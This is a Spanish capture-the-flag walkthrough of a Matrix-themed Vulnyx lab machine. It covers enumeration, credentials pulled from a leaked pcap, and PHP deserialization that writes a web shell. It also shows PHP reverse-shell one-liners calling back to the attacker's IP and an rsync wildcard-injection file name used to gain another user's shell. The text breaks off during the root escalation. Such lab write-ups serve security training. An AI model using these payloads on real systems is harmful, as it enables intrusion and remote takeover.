Este writeup documenta la explotación de una máquina vulnerable inspirada en Matrix, utilizando análisis de tráfico, inyección PHP y escalada de privilegios con rsync para obtener acceso root.

## Tabla de contenido

## Enumeración

Escaneamos puertos con nmap

```bash
$ nmap -p- -Pn -n -T4 -oN allPorts 192.168.1.168            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 02:54 CET
Nmap scan report for 192.168.1.168
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:D6:75:BB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.99 seconds

$ nmap -p22,80 -sVCU -Pn 192.168.1.168  -oN onlyports-udp
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 02:55 CET
Nmap scan report for 192.168.1.168
Host is up (0.00027s latency).

PORT   STATE  SERVICE VERSION
22/udp closed ssh
80/udp closed http
MAC Address: 08:00:27:D6:75:BB (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```

Vemos dos puertos abiertos, 22 para el servicio SSH y el puerto 80 para el servicio Web.

Accedemos con el navegador al servicio web.



Dentro del código fuente encontramos un comentario con una pista.



`Follow the red rabbit... Is it a dream or a clue? Within the saved traffic, you may find traces of the Matrix. Could it be a .pcap file ready to fuzz?`

Asi que sin dudarlo hacemos fuzzing del servicio web en búsqueda de un fichero con extension `.pcap`, donde se ha podido filtrar parte del trafico de la Matrix.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.168 -x .pcap,.php,.txt,.zip,.db
```



Encontramos un fichero `trinity.pcap`.

## Analisis fichero trafico pcap

Descargamos el fichero en nuestra maquina atacante y lo abrimos con Wireshark para analizar el trafico.

```bash
wget http://192.168.1.168/trinity.pcap
```

Encontramos muchos usuarios, contraseñas y subdominios de diferentes servicios (FTP, RSYNC, HTTP, ...), por suerte nada esta encriptado y lo podemos analizar tranquilamente. 

Detectamos que se transfiere una imagen mediante HTTP, intentamos exportarla del trafico mediante Wireshark.





Una vez descargada la renombramos y analizamos los metadatos con la herramienta `exiftool`.
  
```bash
$ ls
allPorts  object172.image%2fwebp  onlyports-udp  trinity.pcap
$ mv object172.image%2fwebp imagen-filtrada.webp
$ exiftool imagen-filtrada.webp
ExifTool Version Number         : 13.00
File Name                       : imagen-filtrada.webp
Directory                       : .
    ...
Vertical Scale                  : 0
XMP Toolkit                     : Image::ExifTool 12.57
Description                     : Morpheus, we have found a direct connection to the 'Mind', the artificial intelligence that controls the Matrix. You can find it at the domain M47r1X.matrix.nyx.
Image Size                      : 800x800
Megapixels                      : 0.640
```

Encontramos un comentario muy interesante en la metadata `Description`, donde se filtra otro dominio `M47r1X.matrix.nyx`.

```text
Morpheus, we have found a direct connection to the 'Mind', the artificial intelligence that controls the Matrix. You can find it at the domain M47r1X.matrix.nyx.
```



Otras formas de llegar a obtener este subdominio y otros datos sensibles del fichero pcap, es analizando el trafico en el mismo Wireshark o con el comando `strings` y `grep`.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/matrix]
└─$ strings trinity.pcap| grep PASS  
PASSWORD: kT8020e136Z2YLJa2fEZ
PASSWORD: krGVRU2vCedfwjVZXDrp
PASSWORD: BgUvmyV0OEgEDpMjpJUv
PASSWORD: 2LmQA1WT2Xc4avgGA1yY
PASS morpheus
PASS zion
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/CTFs/Vulnyx/matrix]
└─$ strings trinity.pcap| grep -Eo "[a-zA-Z0-9._-]+\.matrix\.nyx"
M47r1X.matrix.nyx
```

Más información en el fichero .pcap ...



Subdominios que no nos sirven, el que si que funciona es `M47r1X.matrix.nyx` que contiene un virtualhost, lo añadimos a nuestro hosts files.

## Intrusión

Accedemos al virtualhost `M47r1X.matrix.nyx` con el navegador para acceder a **La Mente** de Matrix ;)



Si enviamos mensajes el chat siempre contesta con símbolos raros, hay una opción aleatoria que puede responder con una pista:



Obtenemos el fichero con la filtración del backend.



En el código de la página hay un comentario y código en el javascript que nos da más pista de como va la intrusión, ademas del posible mensaje que muestra la filtración del backend.

```javascript
            /**
             * Serializes an object to PHP format (similar to serialize() in PHP)
             * @param {string} message - The string message to serialize
             */
            function phpSerialize(message) {
                return 'O:7:"Message":1:{s:7:"message";s:' + message.length + ':"' + message + '";}';
            }
```

Utilizamos burpsuite para facilitar la intrusión, enviamos el mensaje `test` y comprobamos que envía un objeto serializado en PHP, que seguramente se serializara en el servidor con la clase PHP filtrada.



```bash
O:7:"Message":1:{s:7:"message";s:4:"test";}
```

Podemos crear programación en PHP para serializar el objeto, en cualquier caso tambien se puede hacer de forma manual, payload para crear un shell.php en el servidor:

```php
<?php

class Message {
    public $file = "messages.txt";
    public $message = "";
    public function __unserialize(array $data){
        file_put_contents($data['file'],$data['message']."\n", FILE_APPEND);
    }
}
$msg = new Message();
$msg->file = 'shell.php';
$msg->message = "<?php echo exec(\$_GET[\"cmd\"]); ?>";

echo serialize($msg);

```

Lo ejecutamos y esto es lo que enviaremos.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/matrix]
└─$ php serialize.php 
O:7:"Message":2:{s:4:"file";s:9:"shell.php";s:7:"message";s:33:"<?php echo exec($_GET["cmd"]); ?>";}
```



Ahora ya tenemos un RCE con el fichero que se ha creado `shell.php` con la deserialización del mensaje en PHP.



Creamos revshell en php, la ip 192.168.1.116 es la de nuestra maquina atacante.

```bash
php -r '$sock=fsockopen("192.168.1.116",443);exec("/bin/bash <&3 >&3 2>&3");'
```

Nos ponemos a escuchar con  netcat, codificamos la revshell en urlencode y la enviamos al parametro `cmd` de nuestra shell improvisada, para obtener una shell más completa hacemos tratamiento de la TTI.

```bash
nc -lvnp 443
```

```bash
wget http://m47r1x.matrix.nyx/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```



Ya somos el usuario www-data.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 36
drwxr-xr-x 2 www-data www-data 4096 Jan 29 13:27 .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00 ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47 filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04 hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55 index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48 matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26 messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27 shell.php
```

## Escalada de privilegios

Tratamos la TTI correctamente para obtener una shell completa.


Comprobamos que usuarios hay en el sistema.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
smith:x:1000:1000::/home/smith:/bin/bash
```

Hay otro usuario.

En este momento somos el usuario www-data, y tenemos dos formas de hacer el movimiento lateral al usuario smith, la forma corta con la **contraseña filtrada de smith en un registro RSYNC del fichero pcap**, o la forma más complicada mediante la **técnica de rsync Wildcards**.

Esto ocurre por una incorrecta implementación de la maquina por mi parte, pero ya que existe esta posibilidad la explico en este writeup.

### www-data to smith (su)

Una de las contraseñas filtradas en el fichero pcap pertenecen a smith, por este motivo con un simple `su`.


```bash
$ strings trinity.pcap | grep -A 3 -B 3 smith
 ....
--
matrix
morpheus
matrix
RSYNC COMMAND: rsync --daemon /home/smith/file.txt 192.168.2.100:/backup/smith/
PASSWORD: kT8020e136Z2YLJa2fEZ
OK: File transferred successfully
RSYNC COMMAND: rsync --daemon /home/john/file.txt 192.168.2.100:/backup/john/
--

$ su smith
```

Introducimos la contraseña filtrada y ya somos smith.

### www-data to smith (rsync Wildcards)

La forma más complicada, si utilizamos pspy64 o cualquier otra herramienta, miramos los procesos que se ejecutan con el usuario smith.



Podemos observar como hay una tarea programada que se ejecuta cada minuto.

```bash
/bin/sh -c cd /var/www/M47r1X.matrix.nyx && rsync -e "ssh -o BatchMode=yes"  -t *.txt matrix:/home/smith/messages/ > /dev/null 2>&1
```

Como tenemos permisos de escritura en la carpeta `/var/www/M47r1X.matrix.nyx`, podemos intentar un rsync Wildcard, más información en https://www.exploit-db.com/papers/33930.

Creamos el fichero `shell.txt` con nano y el fichero `-e sh shell.txt`.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ cat shell.txt
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'

www-data@matrix:/var/www/M47r1X.matrix.nyx$ touch ./'-e sh shell.txt' 
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 40
-rw-r--r-- 1 www-data www-data    0 Jan 29 14:26 '-e sh shell.txt'
drwxr-xr-x 2 www-data www-data 4096 Jan 29 14:26  .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00  ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47  filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04  hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55  index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48  matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26  messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27  shell.php
-rw-r--r-- 1 www-data www-data   80 Jan 29 14:25  shell.txt
```

En nuestra maquina atacante nos ponemos a la escucha con netcat.

```
nc -lvnp 12345
```

y en un minuto obtenemos una shell con el usuario `smith`.



### smith to root (sudo rsync)

Intentamos obtener la flag user.txt, pero no tenemos permisos de lectura, se los aplicamos ya que somos el propietario y podemos leer la flag de user.

```bash
smith@matrix:~$ chmod +r user.txt 
smith@matrix:~$ ls -la
total 40
drwx--x--x 5 smith smith 4096 ene 29 14:09 .
drwxr-xr-x 3 root  root  4096 ene 28 22:41 ..
lrwxrwxrwx 1 smith smith    9 ene 29 00:07 .bash_history -> /dev/null
-rwx------ 1 smith smith  220 mar 29  2024 .bash_logout
-rwx------ 1 smith smith 3526 mar 29  2024 .bashrc
drwx------ 3 smith smith 4096 ene 28 23:45 .local
drwx------ 2 smith smith 4096 ene 29 13:54 messages
-rwx------ 1 smith smith  807 mar 29  2024 .profile
